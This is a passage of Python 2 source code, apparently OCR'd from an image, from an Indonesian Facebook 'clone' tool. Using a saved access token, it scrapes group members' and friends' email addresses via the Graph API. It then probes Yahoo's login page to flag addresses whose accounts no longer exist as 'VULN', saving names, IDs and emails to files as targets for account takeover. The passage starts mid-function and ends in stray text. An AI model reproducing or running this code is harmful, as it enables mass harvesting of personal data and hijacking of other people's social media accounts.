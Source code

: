 '"messages.ERROR_INVALID_USERNAME">' in pek: print("\033[1;96m[✓] \033[1;92mVULN") print("\033[1;96m[➹] \033[1;97mID \033[1;91m: \033[1;92m"+id) print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail) print("\033[1;96m[➹] \033[1;97mNama \033[1;91m: \033[1;92m"+nama) save = open('out/TemanMailVuln.txt','a') save.write("Nama : "+ nama + '\n' "ID : "+ id + '\n' "Email : "+ mail + '\n\n') save.close() berhasil.append(mail) except KeyError: pass print 42*"\033[1;96m=" print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....' print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil)) print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/TemanMailVuln.txt" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() def clone_dari_member_group(): global toket os.system('clear') try: toket=open('login.txt','r').read() except IOError: print"\033[1;96m[!] \x1b[1;91mToken invalid" os.system('rm -rf login.txt') time.sleep(1) keluar() try: os.mkdir('out') except OSError: pass os.system('clear') print logo mpsh = [] jml = 0 print 42*"\033[1;96m=" id=raw_input('\033[1;96m[+] \033[1;93mMasukan ID group \033[1;91m:\033[1;97m ') try: r=requests.get('https://graph.facebook.com/group/?id='+id+'&access_token='+toket) asw=json.loads(r.text) print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama group \033[1;91m:\033[1;97m "+asw['name'] except KeyError: print"\033[1;96m[!] \x1b[1;91mGroup tidak ditemukan" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() jalan('\033[1;96m[✺] \033[1;93mMengambil email \033[1;97m...') teman = requests.get('https://graph.facebook.com/'+id+'/members?fields=name,id&limit=999999999&access_token='+toket) kimak = json.loads(teman.text) jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...') print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z') print 42*"\033[1;96m=" for w in kimak['data']: jml +=1 mpsh.append(jml) id = w['id'] nama = w['name'] links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket) z = json.loads(links.text) try: mail = z['email'] yahoo = re.compile(r'@.*') otw = yahoo.search(mail).group() if 'yahoo.com' in otw: br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com") br._factory.is_html = True br.select_form(nr=0) br["username"] = mail klik = br.submit().read() jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*') try: pek = jok.search(klik).group() except: continue if '"messages.ERROR_INVALID_USERNAME">' in pek: print("\033[1;96m[✓] \033[1;92mVULN") print("\033[1;96m[➹] \033[1;97mID \033[1;91m: \033[1;92m"+id) print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail) print("\033[1;96m[➹] \033[1;97mNama \033[1;91m: \033[1;92m"+nama) save = open('out/GrupMailVuln.txt','a') save.write("Nama : "+ nama + '\n' "ID : "+ id + '\n' "Email : "+ mail + '\n\n') save.close() berhasil.append(mail) except KeyError: pass print 42*"\033[1;96m=" print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....' print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil)) print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/GrupMailVuln.txt" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() def clone_dari_file(): global toket os.system('clear') try: toket=open('login.txt','r').read() except IOError: print"\033[1;96m[!] \x1b[1;91mToken invalid" os.system('rm -rf login.txt') time.sleep(1) keluar() try: os.mkdir('out') except OSError: pass os.system('clear') print logo print 42*"\033[1;96m=" files = raw_input("\033[1;96m[+] \033[1;93mNama File \033[1;91m: \033[1;97m") try: total = open(files,"r") mail = total.readlines() except IOError: print"\033[1;96m[!] \x1b[1;91mFile tidak ditemukan" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() mpsh = [] jml = 0 jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...') print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z') print 42*"\033[1;96m=" mail = open(files,"r").readlines() for pw in mail: mail = pw.replace("\n","") jml +=1 mpsh.append(jml) yahoo = re.compile(r'@.*') otw = yahoo.search(mail).group() if 'yahoo.com' in otw: br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com") br._factory.is_html = True br.select_form(nr=0) br["username"] = mail klik = br.submit().read() jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*') try: pek = jok.search(klik).group() except: continue if '"messages.ERROR_INVALID_USERNAME">' in pek: print("\033[1;96m[✓] \033[1;92mVULN") print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail) save = open('out/MailVuln.txt','a') save.write("Email: "+ mail + '\n\n') save.close() berhasil.append(mail) print 42*"\033[1;96m=" print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....' print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil)) print"\033[1;96m[+] \033[1;92mFile Tersimpan \033[1;91m:\033[1;97m out/FileMailVuln.txt" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() if __name__ == '__main__': siapa() sandy
serah aku lah

